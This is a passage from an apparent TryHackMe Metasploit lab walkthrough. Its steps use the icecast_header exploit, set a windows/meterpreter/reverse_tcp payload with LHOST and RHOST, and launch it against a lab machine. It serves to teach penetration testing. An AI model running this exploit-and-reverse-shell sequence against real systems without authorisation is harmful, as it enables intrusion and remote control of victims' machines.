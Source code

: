 5 	
One last thing, try the command 'vulns' now. This won't show much at the current moment, however, it's worth noting that Metasploit will keep track of discovered vulnerabilities. One of the many ways the database can be leveraged quickly and powerfully. 
```
Vulnerabilities
===============
Timestamp  Host  Name  References
---------  ----  ----  ----------
```

6) 	
ow that we've scanned our victim system, let's try connecting to it with a Metasploit payload. First, we'll have to search for the target payload. In Metasploit 5 (the most recent version at the time of writing) you can simply type 'use' followed by a unique string found within only the target exploit. For example, try this out now with the following command 'use icecast'.What is the full path for our exploit that now appears on the msfconsole prompt? This will include the exploit section at the start
```
exploit/windows/http/icecast_header
```

7 	
While that use command with the unique string can be incredibly useful that's not quite the exploit we want here. Let's now run the command 'search multi/handler'. What is the name of the column on the far left side of the console that shows up next to 'Name'? Go ahead and run the command 'use NUMBER_NEXT_TO exploit/multi/handler' wherein the number will be what appears in that far left column (typically this will be 4 or 5). In this way, we can use our search results without typing out the full name/path of the module we want to use.
``
#
``

8) 	
Now type the command 'use NUMBER_FROM_PREVIOUS_QUESTION'. This is the short way to use modules returned by search results. 

9)
Next, let's set the payload using this command 'set PAYLOAD windows/meterpreter/reverse_tcp'. In this way, we can modify which payloads we want to use with our exploits. Additionally, let's run this command 'set LHOST YOUR_IP_ON_TRYHACKME'. You might have to check your IP using the command 'ip addr', it will likely be your tun0 interface.

10)
Let's go ahead and return to our previous exploit, run the command `use icecast` to select it again.

11) 	One last step before we can run our exploit. Run the command 'set RHOST BOX_IP' to tell Metasploit which target to attack.

12)
Once you're set those variables correctly, run the exploit now via either the command 'exploit' or the command 'run -j' to run this as a job.

13)
Once we've started this, we can check all of the jobs running on the system by running the command `jobs`
